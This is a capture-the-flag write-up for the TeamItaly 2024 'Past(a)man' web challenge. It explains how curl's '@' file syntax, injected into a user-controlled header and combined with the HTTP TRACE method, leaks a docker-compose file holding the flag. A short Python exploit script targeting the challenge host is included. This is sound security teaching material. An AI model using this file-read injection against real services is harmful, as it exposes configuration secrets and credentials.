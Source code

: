 # TeamItaly Preselection CTF 2024

## [web] Past(a)man (0 solves)

Use our simple APIs to store your favourite pasta recipes.

Site: [http://pastaman.challs.external.open.ecsc2024.it](http://pastaman.challs.external.open.ecsc2024.it)

Author: Stefano Alberto <@Xato>

## Overview

The application is a simple interface users to make API requests with a curl command constructed from data entered by the user.

The user can control the path, method, headers and body of the request, and requests can only be made to the server reachable at `http://api/`.

The flag is used as an environment variable in the API server, but it's also saveed in the `docker-compose.yml` file which is copied in the docker of the exposed server executing the curl requests.

## Solution

The first step for the solution requires including the file with the flag in a request. To do this, you can use curl's special syntax to read data from a file if the supplied parameter starts with the '@' character.

This syntax is supported by both the '--data' parameter and '-H' parameter controlled by the user.
Inserting the payload `@/app/docker-compose.yml` in one of these parameters allows the contents of the file (and the flag) to be sent within the generated request.

Since we cann't control the host to which the request is made, we must find a way to read the contents of the file through the api server. This is possible using the TRACE method, supported by default by the API server, which allows a copy of the HTTP request made to be returned as a response. This method only supports requests without a body, so the file to be leaked must be placed inside the headers.

To get the flag we need to call `request.php` with the following body: `path=%2F&method=TRACE&headers%5B%5D=@/app/docker-compose.yml`

## Exploit

```py
import requests

URL = 'http://pastaman.challs.external.open.ecsc2024.it/'
r = requests.post(URL + '/request.php', data={'path': '/', 'method': 'TRACE', 'headers[]': '@/app/docker-compose.yml'})
print(r.text)
```
